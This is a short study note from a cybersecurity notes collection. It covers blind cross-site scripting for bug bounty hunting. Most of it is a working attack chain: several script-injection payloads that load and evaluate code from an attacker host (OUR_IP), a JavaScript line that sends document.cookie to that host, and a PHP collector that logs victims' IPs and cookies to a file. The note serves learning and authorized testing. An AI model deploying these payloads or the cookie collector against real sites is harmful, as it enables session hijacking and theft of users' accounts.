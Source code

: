 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounties/cross-site-scripting/blind-xss-vulnerability/","tags":["XSS/BlindXSS","XSS"]}
---
```



A *blind XSS vulnerability* is a [[Cybersecurity/Bug Bounties/Cross-Site Scripting/Cross-Site Scripting (XSS)\|Cross-Site Scripting (XSS)]] vulnerability that occurs when the vulnerability is triggered on a page we don't have access to.

To see if a hidden page is susceptible to *blind XSS* we use [[Programming/JavaScript\|JavaScript]] payload that sends an HTTP request back to our server.  If the code gets executed, we'll get a response on our machine.

To load a remote script we can provide the URL like so:

```html
	<script src="http://our_ip/script.js"></script>
```

We then change the field "script.js" name to the field that we're want (e.g, "username") so if we get a request for http://our_ip/username" then we know the username field is susceptible.

Some example payloads we can use from [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings):
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Generally, we try each available field with one of the payloads.  Set the payload to call http://our_IP/FieldName

Once we identify the field name, we use a payload that will call our machine and run a script (script.js) that makes a call with the document cookie.
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```
Inject this code into the vulnerable field:
```html
<script src=http://OUR_IP/script.js></script>
```

This will yield two calls to our machine.  The first to get the script.  The script will fire and send a request with the cookie attached.

index.php has the following code:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
